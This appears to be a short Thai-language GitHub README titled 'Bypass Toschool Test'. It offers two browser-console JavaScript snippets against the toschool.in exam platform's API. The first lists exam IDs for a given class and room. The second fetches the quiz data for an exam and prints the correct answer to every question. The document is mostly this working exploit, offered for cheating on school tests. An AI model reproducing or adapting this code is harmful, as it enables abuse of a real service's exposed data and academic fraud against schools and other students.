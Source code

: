 # Bypass Toschool Test

รันใน console ของ browser นะควัฟ

GET EID
```js
const Class = ""; // ชั้น
const Room = ""; // ห้อง

let req = await fetch("https://toschool.in/toschoolsource/php/getExamData.php?tbCode=132&SID=465&Sclass="+Class+"&Sroom="+Room+"&sUrl=toschool_bksc");
let res = await req.json();
for(let obj of res) {
    console.log("%s > EID: %s", obj["title"], obj["EID"] || "ยังไม่เปิดให้สอบ")
}
```


เอา EID ที่ได้มาใส่ เพื่อหาคำตอบ
```js
const EID = ""; // EID

await fetch("https://toschool.in/toschoolsource/php/getExamData.php?tbCode=152&curEID=" + EID + "&sUrl=toschool_bksc").then(res => res.json()).then(res => {
    for (let quiz of res) {
        let answer = quiz["choice" + (quiz.point.split(",").indexOf("1") + 1)]
        console.log(quiz.quiz_no + ": " + answer);
    }
})
```
